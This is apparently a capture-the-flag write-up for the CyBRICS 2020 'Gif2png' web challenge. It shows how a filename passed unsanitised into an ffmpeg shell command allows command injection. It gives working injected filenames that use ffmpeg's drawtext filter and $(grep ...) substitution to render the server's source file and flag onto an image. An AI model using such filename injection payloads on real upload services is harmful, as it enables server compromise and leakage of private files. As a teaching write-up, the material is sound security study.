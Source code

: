 # Gif2png

Category: Web

>  The webdev department created another cool startup. Here you can convert any animated GIF to PNG images. It's only left to figure out how to monetize it: [**gif2png-cybrics2020.ctf.su/**](http://gif2png-cybrics2020.ctf.su/) 
>
> Sources are [available](main.py)

Looking at the code, the site uses ffmpeg to turn GIFs into their constituent PNG frames. There are several checks before the gif is accepted:

- Filename must end in `.gif`
- Filename must match `^[a-zA-Z0-9_\-. '"=$()|]*$` and not contain `..`
- Content type must be `image/gif` (checked twice)

Given the mime type is checked twice, the exploit is unlikely to be related to the image data itself.

The interesting part of the code is the ffmpeg command:

```python
command = subprocess.Popen(f"ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"", shell=True)
```

Raw string interpolation is used. This is a command injection vulnerability. By changing the filename, can modify the command executed arbitrarily.

According to the source, the flag is in main.py. Hence, reading this file is our aim.

Next, we must find a way to exfiltrate the flag. I found the [`drawtext`](https://hhsprings.bitbucket.io/docs/programming/examples/ffmpeg/drawing_texts/drawtext.html) filter that allows us to draw arbitrary text on the output image. By specifying the `textfile` or `text` arguments, we can draw the flag on the image.

I found a [blank gif](blank.gif) that allows us to read the flag easily. `blank.gif` must be uploaded first.

```python
filename = "blank.gif' -vf 'drawtext=text=hello.gif"
command = """ffmpeg -i 'uploads/blank.gif' -vf 'drawtext=text=hello.gif' "uploads/{uid}/%03d.png" """
```

Yay, the text is drawn on the output image!

The biggest challenge was reading the `main.py` file while fulfilling all the requirements, especially that the filename end in `.gif`. After some trial and error, I found the [metadata](https://wiki.multimedia.cx/index.php/FFmpeg_Metadata) command that accepts arbitrary input.

```python
filename = "blank.gif' -vf 'drawtext=textfile=main.py' -metadata title='hello.gif"
command = """ffmpeg -i 'uploads/blank.gif' -vf 'drawtext=textfile=main.py' -metadata title='hello.gif' "uploads/{uid}/%03d.png" """
```

To my surprise, the output images came out blank! Perhaps the contents of `main.py` was too long to draw on the image. We needed to extract the flag from `main.py` and draw that only. I looked back to the code and spotted

```python
subprocess.Popen(..., shell=True)
```

Perhaps we can use shell command interpolation!

```python
filename = """blank.gif' -vf "drawtext=text=$(grep cybrics main.py)" -metadata title='hello.gif"""
```

Yay!

<img src="029.png" alt="flag" style="zoom:150%;" />

Flag: `cybrics{imagesaresocoolicandrawonthem}`